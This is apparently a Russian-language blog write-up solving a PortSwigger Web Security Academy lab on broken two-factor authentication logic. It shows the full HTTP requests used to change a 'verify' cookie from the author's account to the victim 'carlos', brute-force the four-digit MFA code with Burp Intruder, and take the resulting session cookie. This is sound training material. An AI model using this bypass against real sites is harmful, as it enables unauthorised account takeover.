```yaml
---
title: "2FA broken logic"
date: 2025-09-12
tags: [web, authentication, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/authentication-vulnerabilities/vulnerabilities-in-multi-factor-authentication/authentication/multi-factor/lab-2fa-broken-logic"
classes: wide
---
```

{% raw %}
В данной лабе нарушена логика двухфакторной аутентификации. Для прохождения нужно получить доступ к аккаунту `carlos`. Даны креды от нашего пользователя `wiener`:`peter`.

```
https://0aa300a704e0a59a81867f920029008c.web-security-academy.net
```

## Solution

Сразу пойду на страницу логина, чтобы собрать все запросы:

Получаею страницу для входа:

```http
GET /login HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=LQDyifn6acpYrKiyvaAXblZiWDQObt25
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Ввожу данные:

```http
POST /login HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=LQDyifn6acpYrKiyvaAXblZiWDQObt25
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

username=wiener&password=peter
```

Редирект на форму ввода кода:

```http
GET /login2 HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=GuGvuYdgcYBbmadL3h4qUABwMvGbPjN8; verify=wiener
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Отправка кода:

```http
POST /login2 HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=GuGvuYdgcYBbmadL3h4qUABwMvGbPjN8; verify=wiener
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/login2
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

mfa-code=0115
```

Переход на страницу аккаунта:

```http
GET /my-account HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=LQDyifn6acpYrKiyvaAXblZiWDQObt25
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

После ввода логина и пароля сайт установил мне `Cookie` значение `verify=winer`. Попробую отправить запрос `GET /login2`, изменив значение `verify` на `carlos`.

```http
GET /login2 HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=GuGvuYdgcYBbmadL3h4qUABwMvGbPjN8; verify=carlos
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Получил форму ввода кода:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_2FA_broken_logic/1.png){: height="200" .align-center}

Попробую подобрать нужный пароль через `Intruder` простым брутфорсом:

```http
POST /login2 HTTP/2
Host: 0aa300a704e0a59a81867f920029008c.web-security-academy.net
Cookie: session=GuGvuYdgcYBbmadL3h4qUABwMvGbPjN8; verify=carlos
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net/login2
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: https://0aa300a704e0a59a81867f920029008c.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

mfa-code=§code§
```

Настройки пейлоада:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_2FA_broken_logic/2.png){: height="200" .align-center}

Провел атаку и отсортировал по коду ответа. При правильном коде я должен получить ответ `302`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_2FA_broken_logic/3.png){: height="200" .align-center}

Вытащу значение `session` из `Cookie` ответа и вставлю в браузере для входа:

```http
HTTP/2 302 Found
Location: /my-account?id=carlos
Set-Cookie: session=RaBbH8fs2OGpCmO1fscpJQXrw5iivK5R; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_2FA_broken_logic/4.png){: height="200" .align-center}

Обновил страницу. И вот я залогинился)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_authentication/IMG_2FA_broken_logic/5.png){: height="200" .align-center}
{% endraw %}
